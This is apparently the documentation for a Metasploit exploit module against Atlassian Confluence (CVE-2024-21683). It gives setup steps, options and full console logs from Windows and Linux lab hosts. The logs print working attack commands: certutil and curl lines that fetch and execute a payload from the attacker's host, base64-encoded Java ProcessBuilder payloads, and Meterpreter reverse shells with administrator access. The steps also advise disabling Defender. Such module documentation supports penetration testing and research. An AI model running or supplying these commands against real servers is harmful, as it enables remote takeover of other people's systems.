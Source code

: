 ## Vulnerable Application
This module exploits an authenticated administrator-level vulnerability in Atlassian Confluence,
tracked as CVE-2024-21683. The vulnerability exists due to the Rhino script engine parser evaluating
tainted data from uploaded text files. This facilitates arbitrary code execution. This exploit will
authenticate, validate user privileges, extract the underlying host OS information, then trigger
remote code execution. All versions of Confluence prior to 7.17 are affected, as are many versions
up to 8.9.0.

## Testing
Download and install a [vulnerable version of Atlassian Confluence](https://www.atlassian.com/software/confluence/download-archives).
By default, Confluence serves an HTTP service on TCP port 8090. This module was tested against four Confluence installs:
Linux and Windows Confluence hosts running two different versions, 8.9.0 and 7.20.2. The target host operating systems
were Ubuntu 22.04 and Server 2022.

## Verification Steps
Note: Disable Defender if you are using the default payloads.

Steps:
1. Start msfconsole
2. `use exploit/multi/http/atlassian_confluence_rce_cve_2024_21683`
3. `set RHOST 192.168.156.131`
4. `check`
5. `set LHOST 192.168.156.129`
6. `set ADMIN_USER admin`
7. `set ADMIN_PASS Password123!`
8. For Windows targets, `set FETCH_COMMAND CERTUTIL` is recommended. For Linux targets, `set FETCH_COMMAND CURL` is recommended.
9. `exploit`

## Options

### ADMIN_USER

The known Confluence administrator username.

### ADMIN_PASS

The known Confluence administrator password.

## Scenarios

### Windows Target
```
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set ADMIN_USER admin
ADMIN_USER => admin
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set ADMIN_PASS Password123!
ADMIN_PASS => Password123!
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set LHOST 192.168.156.129
LHOST => 192.168.156.129
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set FETCH_COMMAND CERTUTIL 
FETCH_COMMAND => CERTUTIL
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set FETCH_SRVHOST 192.168.156.129
FETCH_SRVHOST => 192.168.156.129
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set RHOSTS 192.168.156.131
RHOSTS => 192.168.156.131
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > check
[*] 192.168.156.131:8090 - The target appears to be vulnerable. Exploitable version of Confluence: 7.20.2
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > run

[*] Command to run on remote host: certutil -urlcache -f http://192.168.156.129:8080/h2Wbt3lK1eTiVRc3SNDL1w %TEMP%\iYgswSHqZU.exe & start /B %TEMP%\iYgswSHqZU.exe
[*] Fetch handler listening on 192.168.156.129:8080
[*] HTTP server started
[*] Adding resource /h2Wbt3lK1eTiVRc3SNDL1w
[*] Started reverse TCP handler on 192.168.156.129:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Exploitable version of Confluence: 7.20.2
[*] Successfully authenticated to Confluence
[*] The provided user is an administrator
[*] Secure Administrator Sessions enabled - elevating session
[*] Grabbed elevation CSRF token: a8fc89e32b0baa5f6d72247e614e37bdf11c33c4
[*] Administrator session has been elevated
[*] Target returned the operating system string 'Windows Server 2022 10.0'
[*] Grabbed macro CSRF token: de21269d58ebd338bed3a2bd15a4c54fe321785b
[*] Crafted ProcessBuilder payload string: new java.lang.ProcessBuilder("cmd.exe", "/c", new java.lang.String(java.util.Base64.getDecoder().decode('Y2VydHV0aWwgLXVybGNhY2hlIC1mIGh0dHA6Ly8xOTIuMTY4LjE1Ni4xMjk6ODA4MC9oMldidDNsSzFlVGlWUmMzU05ETDF3ICVURU1QJVxpWWdzd1NIcVpVLmV4ZSAmIHN0YXJ0IC9CICVURU1QJVxpWWdzd1NIcVpVLmV4ZQ=='))).start()
[*] Sending POST request to trigger code execution
[*] Client 192.168.156.131 requested /h2Wbt3lK1eTiVRc3SNDL1w
[*] Sending payload to 192.168.156.131 (Microsoft-CryptoAPI/10.0)
[*] Client 192.168.156.131 requested /h2Wbt3lK1eTiVRc3SNDL1w
[*] Sending payload to 192.168.156.131 (CertUtil URL Agent)
[*] Sending stage (201798 bytes) to 192.168.156.131
[*] Meterpreter session 1 opened (192.168.156.129:4444 -> 192.168.156.131:51064) at 2024-07-09 10:19:08 -0500

meterpreter > getuid
Server username: SRV01\Administrator
meterpreter > pwd
C:\Program Files\Atlassian\Confluence\bin
meterpreter >
```

### Linux Target
```
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set ADMIN_USER admin
ADMIN_USER => admin
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set ADMIN_PASS Password123!
ADMIN_PASS => Password123!
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set RHOSTS 192.168.156.133
RHOSTS => 192.168.156.133
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > check
[*] 192.168.156.133:8090 - The target appears to be vulnerable. Exploitable version of Confluence: 8.9.0
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set FETCH_COMMAND CURL
FETCH_COMMAND => CURL
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > run

[*] Command to run on remote host: curl -so ./UyvwIjHwXcB http://192.168.156.129:8080/zR2OIDxwf8sUzl-Aq0rIXg; chmod +x ./UyvwIjHwXcB; ./UyvwIjHwXcB &
[*] Fetch handler listening on 192.168.156.129:8080
[*] HTTP server started
[*] Adding resource /zR2OIDxwf8sUzl-Aq0rIXg
[*] Started reverse TCP handler on 192.168.156.129:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Exploitable version of Confluence: 8.9.0
[*] Successfully authenticated to Confluence
[*] The provided user is an administrator
[*] Target returned the operating system string 'Linux 6.5.0-41-generic'
[*] Grabbed macro CSRF token: 671809d94b9274550326b77f1618381188952a53
[*] Crafted ProcessBuilder payload string: new java.lang.ProcessBuilder("/bin/sh", "-c", new java.lang.String(java.util.Base64.getDecoder().decode('Y3VybCAtc28gLi9VeXZ3SWpId1hjQiBodHRwOi8vMTkyLjE2OC4xNTYuMTI5OjgwODAvelIyT0lEeHdmOHNVemwtQXEwcklYZzsgY2htb2QgK3ggLi9VeXZ3SWpId1hjQjsgLi9VeXZ3SWpId1hjQiAm'))).start()
[*] Sending POST request to trigger code execution
[*] Client 192.168.156.133 requested /zR2OIDxwf8sUzl-Aq0rIXg
[*] Sending payload to 192.168.156.133 (curl/7.81.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.156.133
[*] Meterpreter session 1 opened (192.168.156.129:4444 -> 192.168.156.133:60308) at 2024-07-09 10:40:32 -0500

meterpreter > getuid
Server username: confluence
meterpreter > pwd
/atlassian-confluence-8.9.0
meterpreter > 
```
